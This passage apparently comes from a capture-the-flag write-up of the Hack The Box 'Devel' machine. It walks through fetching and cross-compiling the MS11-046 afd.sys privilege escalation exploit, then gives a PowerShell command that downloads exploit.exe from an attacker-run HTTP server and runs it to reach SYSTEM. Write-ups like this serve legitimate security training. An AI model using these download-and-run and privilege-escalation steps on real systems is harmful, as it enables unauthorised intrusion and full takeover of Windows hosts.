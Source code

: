 ![MS11-046](/assets/img/htb/machines/windows/easy/devel/exploitDB.png)

#### Compiling exploits

1. Getting exploit based on the **EDB-ID** (**E**xploit **D**ataBase **ID**entifier):

{% highlight bash %}
$ searchsploit -m 40564
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/htb/machines/Windows/Devel/40564.c
{% endhighlight %}

2. Install `apt install mingw-w64`

3. Compile the exploit specifically for target machine:

{% highlight bash %}
$ i686-w64-mingw32-gcc 40564.c -o exploit.exe -lws2_32
{% endhighlight %}

### Privesc (system)

Transfer `exploit.exe`:
- (Attacker's machine) run HTTP Server: `python3 -m http.server`
- (Victim's machine) download exploit: `powershell -command "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.14:8000/exploit.exe', 'c:\Windows\System32\spool\drivers\color\exploit.exe')"`
- Execute `exploit.exe`:

{% highlight bash %}
c:\Windows\System32\spool\drivers\color>exploit.exe 
exploit.exe

c:\Windows\System32>whoami
whoami
nt authority\system
{% endhighlight %}
